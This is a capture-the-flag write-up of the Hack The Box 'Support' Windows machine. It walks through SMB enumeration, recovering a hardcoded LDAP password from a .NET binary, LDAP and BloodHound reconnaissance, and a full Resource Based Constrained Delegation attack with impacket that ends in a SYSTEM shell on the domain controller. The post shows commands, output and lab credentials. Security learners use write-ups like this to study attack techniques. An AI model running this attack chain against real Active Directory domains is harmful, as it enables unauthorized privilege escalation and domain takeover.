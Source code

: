 ```yaml
---
title: HackTheBox - Support
date: 2022-12-04
author: Marius
tags: [ctf, 'Hack The Box', 'htb', 'windows']
---
```


Easy rated and most importantly free Windows box found in Hack The Box. Lets give it a shot!

### Enumeration

Looks like I will be working with AD environment based on DNS, Kerberos and LDAP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 09:28 EST
Nmap scan report for support.htb (10.10.11.174)
Host is up (0.10s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-04 14:29:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-12-04T14:29:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.17 seconds

```

### SMB

Spun up Crackmapexec to list open shares with guest user. Looks liked there's a non-standard share "support staff tools"

```
└─$ cme smb 10.10.11.174 -u "guest" -p "" --shares         
 
[*] completed: 100.00% (1/1)
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [+] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
```

SMB Share contains well-known support tools except for **UserInfo.exe.zip** which seems to be an odd one out.

```
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022
  
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (242.2 KiloBytes/sec) (average 242.2 KiloBytes/sec)

```

Downloaded and unziped the archive. **UserInfo.exe** looks to be something that can be inspected further.

![alt text](/assets/img/support/1.png)

**Strings** and **cat** does not reveal that much sense out of this executable. I have decided to transfer it to my Windows VM and inspect it with [dnSpy debugger](https://github.com/dnSpy/dnSpy). By inspecting functions I've observed function called **getPassword()** which uses a hardcoded password for LDAP queries. Unfortunately password is encoded.

![alt text](/assets/img/support/2.png)

Setting a breakpoint before password is used in the program I managed to collect plaintext password alongside with username that can be observed in LdapQuery function.

![alt text](/assets/img/support/3.png)

I have verified that password is working using CME.
```
─$ cme smb 10.10.11.174 -u "ldap" -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### Exploitation

With credentials that I have collected, I have enumerated LDAP and collected info for Bloodhound.

LDAP search revealed a password for **support** user found in **info** property.

```
└─$ ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "Cn=Users,DC=support,DC=htb" > ldap_users.txt 
```

![alt text](/assets/img/support/4.png)

```
└─$ python bloodhound.py -ns 10.10.11.174 -d support.htb -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WALULA.support.htb
INFO: Querying computer: 
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: WALULA.support.htb: The resolution lifetime expired after 3.204 seconds: Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.; Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 27S
```
Reviewing results in Bloodhound I have observed that support user ,who's credentials I found in LDAP, is member of "**Shared Support Accounts"** who has **GenericAll** (Resource Based Contrained Delegatiot) privileges over DC which can be used to escalate privileges.

![alt text](/assets/img/support/5.png)

### Privilege Escalation

First I created fake computer using impacket.

```
└─$ impacket-addcomputer support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
```

Then I have used [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) to modify delegation rights.

```
└─$ python rbcd.py -dc-ip 10.10.11.174 -t dc -f 'ATTACK' support.htb\\support:Ironside47pleasure40Watchful
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support.htb\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `ATTACK` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified successfully!
[*] ATTACK$ can now impersonate users on dc$ via S4U2Proxy
```

Next I used **impacket-getST** to get service ticket.

```
└─$ impacket-getST -spn cifs/dc.support.htb support.htb/attack\$:'AttackerPC1!' -impersonate administrator -dc-ip 10.10.11.174   
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

Export ticket as environment variable.

```
└─$ export KRB5CCNAME=./Administrator.ccache
```

Finally used impacket psexec with -no-pass arg to psexec to DC. 

```
└─$ impacket-psexec -k -no-pass dc.support.htb -dc-ip 10.10.11.174          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file xMbicevQ.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service YuDO on dc.support.htb.....
[*] Starting service YuDO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And I am root ! Spend some time on this machine, I would rate this as medium and not easy.